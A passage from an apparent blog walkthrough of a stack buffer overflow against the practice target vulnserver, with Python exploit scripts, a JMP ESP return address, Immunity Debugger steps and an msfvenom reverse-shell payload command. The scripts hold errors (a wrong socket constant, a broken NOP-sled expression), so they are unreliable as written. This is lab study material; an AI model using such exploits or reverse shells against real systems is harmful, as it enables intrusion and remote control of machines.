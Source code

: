 In the results, you’ll see the first column in table is locations for FFE4 pointers </p>
<img src="https://i.imgur.com/c1dEZn7.png" alt="imageI">
<p class="has-line-data" data-line-start="254" data-line-end="270">Back in terminal,<br>
edit the <a href="http://2.py">2.py</a> script as:<br>
{% highlight ruby %}<br>
#!/usr/bin/python  
import sys, socket  
shellcode = “A”*2003 + “\xaf\x11\x50\x62” # ← this is the 625011af first pointer in first column from the !mona find results above (litte endian because binary is 32-bit x86 so the nibbles go in reverse order)  
try:  
    s=socket(socket.AF_NET,socket.SOCK_STREAM)  
    s.connect(('192.168.x.x',9999))  
    s.send(('TRUN /.:/ ' + shellcode))  
    s.close()  
except:  
    print “Error connecting to server”  
    sys.exit()   
{% endhighlight %}<br>
Save and close.</p>
<p class="has-line-data" data-line-start="271" data-line-end="280">Back in immunity,<br>
click the Follow Expression arrow and enter the essfunc.dll pointer 625011af as in pic (<a href="https://i.imgur.com/FCwEnO3.png">https://i.imgur.com/FCwEnO3.png</a>)<br>
Immunity will jump to that position in the code, it should be a JMP ESP call.<br>
Press F2 to set break point at that position.<br>
Now when we run the program, IF <a href="http://2.py">2.py</a> jumps to that call, then the program will halt.<br>
So this is all a confirmation phase.<br>
Run vulnserver, run <a href="http://2.py">2.py</a><br>
In immunity, vulnserver did stop at 625011af.<br>
So we can write to EIP, then jump to this position from EIP.</p>
<p class="has-line-data" data-line-start="281" data-line-end="282">Now what?  Do we then write into that position, or what?  I don’t know, yet.</p>
<h2 class="code-line" data-line-start=283 data-line-end=284 ><a id="Generating_Shellcode__Gaining_Root_283"></a>Generating Shellcode &amp; Gaining Root</h2>
<p class="has-line-data" data-line-start="284" data-line-end="285">Let’s see where this process goes.</p>
<p class="has-line-data" data-line-start="286" data-line-end="311">msfvenom -p windows/shell_reverse_tcp LHOST=&lt;our ip&gt; LPORT=4444 EXITFUNC=thread -f -c -a x86 -b “\x00&lt;and any other bad chars&gt;”<br>
Take note of payload size.  This one is 351 bytes.<br>
Copy the payload<br>
<img src="https://i.imgur.com/cLLfd4O.png" alt="imageH"><br>
Edit <a href="http://2.py">2.py</a> as:<br>
{% highlight ruby %}<br>
#!/usr/bin/python  
import sys, socket  
overflow = (  
"paste the actual payload hex here")  
shellcode = “A”*2003 + “\xaf\x11\x50\x62” + “\x90” + 32 + overflow # “\x90” + 32 is a NOPslide, it's padding to get us past any other NOP calls before calling the payload.    
try:  
    s=socket(socket.AF_NET,socket.SOCK_STREAM)  
    s.connect(('192.168.x.x',9999))  
    s.send(('TRUN /.:/ ' + shellcode))  
    s.close()  
except:  
    print “Error connecting to server”  
    sys.exit()   
{% endhighlight %}<br>
Save and close.</p>